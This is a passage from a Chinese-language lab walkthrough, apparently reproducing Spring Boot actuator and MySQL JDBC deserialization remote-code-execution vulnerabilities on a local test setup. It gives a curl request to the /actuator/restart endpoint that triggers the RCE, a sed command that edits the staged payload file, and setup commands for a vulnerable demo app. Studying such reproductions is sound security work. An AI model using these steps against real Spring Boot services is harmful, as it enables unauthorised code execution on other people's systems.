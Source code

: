 成功设置.

**(2) 触发RCE**

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9096/actuator/restart
```

过程出现了如下错误，执行完一次，需要新创建个其他函数，或者先删除掉。:

[![](assets/1703152930-61211532f47382bd0c7bfc146194ed0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)

```plain
sed -i "" s/T5/T6/g /tmp/cmd.json
```

同时要注意，命令执行linux和window的区别。如图所示，可以成功RCE

[![](assets/1703152930-c6b6c96ab816717bda24db5a9fb6518d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)

- - -

#### **4.mysql jdbc deserialization RCE**

```plain
cd springboot-mysql-jdbc-rce
mvn spring-boot:run
```

运行之前,需要配置一下数据库连接，要不然运行会失败的，这里我启用了我本地的mysql。

[![](assets/1703152930-53aa639c82c25c6e11772a60a378c3c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)
